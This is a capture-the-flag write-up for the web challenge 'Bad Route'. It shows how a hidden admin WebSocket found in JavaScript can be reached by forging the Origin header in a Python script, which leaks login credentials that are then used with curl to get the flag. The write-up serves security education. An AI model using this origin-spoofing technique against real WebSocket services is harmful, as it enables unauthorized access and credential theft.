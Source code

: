 # Bad Route
* Category: Web
* 200 Points
* Solved by the JCTF Team

## Description
> Our company belive that if we go on the bad route of environment pollution we have a direct effect on human health.
> 
> However, some energy companies that are destroying the planet are tried to takedown our website.
> 
> Your mission is to make sure that our new website is secure.

## Solution

The attached website is a simple site with three pages: A home page, an "about" page and a login page. No obvious vulnerabilities related to the login page, so we dive into the sources:

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>The Parllel Ocean</title>
  <base href="/">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="icon" type="image/x-icon" href="favicon.ico">
  <script>window.global = window;</script>
<link rel="stylesheet" href="styles.3ff695c00d717f2d2a11.css"></head>
<body>
  <app-root></app-root>
<script src="runtime.acf0dec4155e77772545.js" defer></script><script src="polyfills.35a5ca1855eb057f016a.js" defer></script><script src="main.b8c73a19106d54f04466.js" defer></script></body>
</html>
```

This is a React application where most of the logic resides in the Javascript code. So, we dive deeper into the Javascript sources. 

Scanning through `main`, we encounter the following code:

```javascript
class t {
    constructor() {}
    connect() {
        new WebSocket("wss://securityocean.corp.local/admin/log")
    }
}
```

This websocket looks interesting. We couldn't find a way to trigger this flow via the website, but we can trigger it manually too via the Javascript Developer Console:

```javascript
var ws = new WebSocket("wss://securityocean.corp.local/admin/log");
ws.onopen = function () {
    console.log('Connection opened');
};

ws.onmessage = function (evt) {
    console.log("Message received = " + evt.data);
};

ws.onclose = function () {
    console.log("Connection closed");
};
```

Output:
```
GET wss://securityocean.corp.local/admin/log
Firefox can’t establish a connection to the server at wss://securityocean.corp.local/admin/log.
Connection closed
```

This makes sense, since we're trying to connect to a `.local` domain:

> The domain name local is a special-use domain name reserved by the Internet Engineering Task Force (IETF) so that it may not be installed as a top-level domain in the Domain Name System (DNS) of the Internet. ([Wikipedia](https://en.wikipedia.org/wiki/.local))

But what if we change the domain to the external one:

```javascript
var ws = new WebSocket("wss://badroute.appsecil.ctf.today/admin/log");
ws.onopen = function () {
    console.log('Connection opened');
};

ws.onmessage = function (evt) {
    console.log("Message received = " + evt.data);
};

ws.onclose = function () {
    console.log("Connection closed");
};
```

Output:
```
GET wss://badroute.appsecil.ctf.today/admin/log
Message received = {"error":"Bad origin provided, abort connection. Expect: ['securityocean.corp.local']"}
Connection closed
```

We now get an error message that the origin should be `securityocean.corp.local`. 

> The Origin request header indicates where a fetch originates from. It doesn't include any path information, but only the server name. It is sent with CORS requests, as well as with POST requests. It is similar to the Referer header, but, unlike this header, it doesn't disclose the whole path.

One way to achieve this is to edit the `hosts` file, add an entry for `securityocean.corp.local`, visit it in the browser and rerun the Javascript code above. Another way is via Python:

```python
import asyncio
import websockets

async def ws_connect():
    async with websockets.connect(
        "wss://badroute.appsecil.ctf.today/admin/log", 
        origin = "https://securityocean.corp.local"
    ) as websocket:
        for i in range(5):
            output = await websocket.recv()
            print(f"< {output}")

asyncio.get_event_loop().run_until_complete(ws_connect())
```

Output:
```console
root@kali:/media/sf_CTFs/appsec/Bad_Route# python3 solve.py
< {"msg":{"email":"livnaAppSec@hotmail.com","pass":"tSec43PasswordL"},"error":"Incorrect username or password."}
< {"msg":{"email":"livnaAppSec@hotmail.com","pass":"tSec43PasswordLivna "},"error":"Incorrect username or password."}
< {"msg":{"email":"livnaAppSec@hotmail.com","pass":"tSec43PasswordL"},"error":"Incorrect username or password."}
< {"msg":{"email":"livnaAppSec@hotmail.com","pass":"tSec43PasswordLivna "},"error":"Incorrect username or password."}
< {"msg":{"email":"livnaAppSec@hotmail.com","pass":"tSec43PasswordL"},"error":"Incorrect username or password."}
```

We can now use the credentials we've received:
```console
root@kali:/media/sf_CTFs/appsec/Bad_Route# curl 'https://badroute.appsecil.ctf.today/users/authenticate' -H 'Content-Type: application/json' --data-raw '{"username":"livnaAppSec@hotmail.com","password":"tSec43PasswordLivna"}' && echo
{"msg":"Congrats! Your Flag is AppSec-IL{Th3_W3bS0ckets_N33ds_2BS3cre}","status":200}
```

The flag: `AppSec-IL{Th3_W3bS0ckets_N33ds_2BS3cre}`